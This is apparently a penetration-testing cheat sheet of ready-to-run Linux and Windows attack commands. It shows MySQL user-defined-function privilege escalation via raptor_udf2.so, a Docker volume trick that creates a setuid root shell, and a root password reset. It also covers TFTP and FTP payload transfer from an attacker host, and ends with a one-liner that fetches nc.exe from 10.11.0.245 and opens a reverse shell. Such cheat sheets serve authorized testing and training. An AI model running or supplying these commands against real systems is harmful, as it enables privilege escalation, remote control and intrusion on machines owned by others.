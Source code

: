 ### MySQL User Defined Function Privilege Escalation
```bash
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```bash
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/raptor_udf2.so'));
select * from npn into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell');
```

### Docker Privilege Escalation
```bash
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
```

### Resetting Root Password
```bash
echo "root:spotless" | chpasswd
```

### Uploading Files to Target Machine
TFTP: 
```bash
#TFTP Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start

# Windows
tftp -i $ATTACKER get /download/location/file /save/location/file
```

FTP
```bash
# Linux: set up ftp server with anonymous logon access;
twistd -n ftp -p 21 -r /file/to/serve

# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
echo open $ATTACKER>ftp-commands.txt
echo anonymous>>ftp-commands.txt
echo whatever>>ftp-commands.txt
echo binary>>ftp-commands.txt
echo get file.exe>>ftp-commands.txt
echo bye>>ftp-commands.txt 
ftp -s:ftp-commands.txt

# Or just a one-liner
(echo open 10.11.0.245&echo anonymous&echo whatever&echo binary&echo get nc.exe&echo bye) > ftp.txt & ftp -s:ftp.txt & nc.exe 10.11.0.245 443 -e cmd
```
